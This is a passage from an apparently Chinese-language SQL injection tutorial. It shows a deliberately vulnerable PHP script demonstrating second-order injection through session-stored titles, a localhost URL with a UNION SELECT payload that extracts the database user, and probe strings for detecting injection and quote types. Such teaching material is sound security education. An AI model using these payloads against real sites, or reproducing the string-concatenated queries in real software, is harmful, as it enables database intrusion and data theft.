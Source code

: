 ```php
    echo $sql;
    $results = mysql_query($sql,$conn);
    $row = mysql_fetch_array($results);
    $_SESSION['tid'] = $row['tid'];
    $_SESSION['title'] = $row['title'];
    echo $_SESSION['title'];
}
elseif (isset($_SESSION['title'])){
    $title = $_SESSION['title'];
    $sql = "select * from news where title='$title'";
    echo $sql.'<br>';
    $results = mysql_query($sql, $conn) or die(mysql_error());
    while ($row = mysql_fetch_array($results))
    {
        echo $row['title'].'    '.$row['content'];
        echo '<br>';
    }
}
else{
    echo 'Try create a new';
}
?>
```

`http://127.0.0.1/secondaryinjection.php?tid=6&title=aaa%27 union select 1,user(),3%23&content=qqqqq`

`http://127.0.0.1/secondaryinjection.php`

#### 检测判断sql注入：

```sql
id=1' and 1=0 //报错
id=1' and 1=1 //正确
```

#### 判断什么类型注入：

```sql
id=1'
id=1"
```

可加 “\” 等符号，构造报错，从报错回显中观察是什么类型的错误，如：

```sql
SELECT * from table_name WHERE id='our input'

SELECT * from table_name WHERE id=our input

SELECT * from table_name WHERE id=('out input')

SELECT * from table_name WHERE id=("our input")
```
